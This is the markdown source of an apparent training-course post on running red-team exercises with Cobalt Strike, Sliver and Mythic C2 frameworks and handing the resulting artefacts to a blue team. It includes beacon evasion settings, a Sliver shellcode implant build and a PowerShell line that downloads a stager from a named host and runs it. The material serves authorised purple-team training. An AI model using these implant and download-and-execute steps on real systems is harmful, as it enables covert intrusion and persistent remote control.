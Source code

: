 ```yaml
---
layout: post
title: "11.2 Red‑Team Execution – Operating C2 Frameworks & Capturing Artefacts"
date: 2025-07-13
permalink: /modules/11/red-team-execution/
excerpt: >
  Drive ATT&CK‑aligned playbooks with modern command‑and‑control (C2) suites,
  maintain stealth and OPSEC, and collect high‑fidelity evidence for blue‑team
  mapping.  This post walks through Cobalt Strike, Sliver, and Mythic setups,
  beacon op‑notes, and automated artefact harvesters.
header:
  overlay_image: /assets/images/redteam-execution-banner.png
  overlay_color: "#2b2b2b"
  overlay_filter: "0.4"
---
```


> “Execution without measurement is noise; execution with artefacts is a
> teaching moment.”  
> — Lead Red‑Team Operator

## 1 • C2 Framework Comparison

| Feature / Need                | **Cobalt Strike** | **Sliver (OSS)** | **Mythic** |
|--------------------------------|-------------------|------------------|------------|
| License / Cost                | Commercial        | Free (AGPL)      | Free (Apache) |
| Cross‑Platform Implants       | Windows / Linux   | Win / *nix / mac | Modular  |
| Built‑in OPSEC Randomisation  | Sleep jitter, SMB| Sleep, MTLS      | Random Profiles |
| Automated Profile Builder     | C2 Profiles       | `sliver profile` | Mythic Profiles |
| Scripting API                 | AggressorScript   | gRPC Python/Go   | REST / MythicRPC |
| Beacon Egress Channels        | HTTP/S, DNS, SMB  | HTTP/2, MTLS, WireGuard | HTTP/S, gRPC |
| Native Artifact Capture       | `artifactstore`   | `loot` directory | A File Browser |

> **OPSEC Tip:** Always set `useragent`, `URI paths`, and **jitter** to mimic
baseline traffic before launching an exercise.

---

## 2 • Sample Beacon Configuration (Cobalt Strike)

```powershell
# AggressorScript snippet
stage {
  set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64)";
  set sleeptime 45000;
  set jitter    15;
  set uris "/news.php,/update";
  set pipename "\\\\.\\pipe\\MSSE-{{randstr 4}}";
  set autorun "artifact_log();";
}
```

*Maps to ATT\&CK techniques:*
`T1105` (Ingress Tool Transfer) – beacon stage,
`T1021.002` (SMB Pivot) – named pipes for lateral.

---

## 3 • Sliver Implant Build & Launch

```bash
sliver > generate --mtls --os windows --format shellcode --sleep 60s \
                  --jitter 20 --http-server cdn.corp.live --save ./sliver.sc
# Host stager
sudo python3 -m http.server 80

# Listener
sliver > mtls --lport 443 --webui
```

Trigger via **Atomic ID T1105**:
```
```powershell
Invoke-WebRequest http://cdn.corp.live/sliver.sc -OutFile sc.bin
.\sc.bin
```

---

## 4 • Artefact Collection Script (Windows)

```powershell
$guid = [guid]::NewGuid().ToString()
New-Item -ItemType Directory -Path "C:\RedTeamLogs\$guid" | Out-Null

# Process & network snapshot
Get-Process | Export-Csv "C:\RedTeamLogs\$guid\proc.csv" -NoType
Get-NetTCPConnection | Export-Csv "C:\RedTeamLogs\$guid\tcp.csv" -NoType

# Beacon log (Cobalt)
& beacon.exe log -o "C:\RedTeamLogs\$guid\beacon.log"

Compress-Archive "C:\RedTeamLogs\$guid" "C:\RedTeamLogs\$guid.zip"
```

Feed the ZIP to blue‑team for **forensic timeline reconstruction**.

---

## 5 • Mapping Execution Artefacts to ATT\&CK

| Artefact / Log Line                  | Technique ID | Tactic            |
| ------------------------------------ | ------------ | ----------------- |
| `powershell.exe -enc ...` (Sysmon 1) | T1059.001    | Execution         |
| Named‑pipe `\\.\pipe\MSSE‑A12B`      | T1021.002    | Lateral Movement  |
| `beacon_callback` POST `/news.php`   | T1105        | C2                |
| Registry `Run` key value `Updater`   | T1547.001    | Persistence       |
| LSASS handle open (ETW)              | T1003.001    | Credential Access |

Populate a **Red/Blue shared spreadsheet** or push directly to ATT\&CK Navigator
layer for purple‑team review.

---

## 6 • OPSEC & Safety Controls

1. **Call‑backs only to range DNS / IPs**—whitelist in firewall.
2. **Kill‑Switch Macro**—`beacon_exit` or `sliver exit` bound to key combo.
3. **No Real Data Exfil**—use synthetic corp data set for T1041 tests.
4. **Time‑Box Sleep**—max 4 h dwell; auto‑kill after exercise window.
5. **Audit Log Split**—store artefacts in `\\fileshare\red_ops\YYYY‑MM‑DD`.

---

## 7 • Automating Evidence Push to SOC (Splunk HEC)

```bash
curl -k -H "Authorization: Splunk $TOKEN" \
     -d @"$guid.zip" \
     https://splunk.lab:8088/services/collector/raw?channel=redteam&source=red_c2
```

Adds `source=red_c2` for easy separation from prod logs.

---

## 8 • Best Practices

| Area                    | Guidance                                             |
| ----------------------- | ---------------------------------------------------- |
| **Repeatability**       | Store playbook ID, implant SHA‑256, and commit hash. |
| **Minimal Implants**    | One beacon per host—reduces noise & forensic sprawl. |
| **Living‑off‑The‑Land** | Blend with native binaries; lowers detectability.    |
| **Operator Notes**      | Record every manual command in a timestamped diary.  |
| **Blue‑Team Debrief**   | 24 h post‑exercise walk‑through of artefacts & gaps. |

---

<div class="post-resources container">
  <h3>Resources</h3>
  <ul>
    <li><a href="https://www.cobaltstrike.com/" target="_blank">Cobalt Strike</a></li>
    <li><a href="https://github.com/BishopFox/sliver" target="_blank">Sliver C2</a></li>
    <li><a href="https://github.com/its-a-feature/Mythic" target="_blank">Mythic Framework</a></li>
    <li><a href="https://github.com/redcanaryco/atomic-red-team" target="_blank">Atomic Red Team</a></li>
  </ul>
</div>

<a href="{{ site.baseurl }}/modules/11/mitre-attack-evaluations/" class="next-link">11.3 MITRE ATT\&CK Evaluations →</a>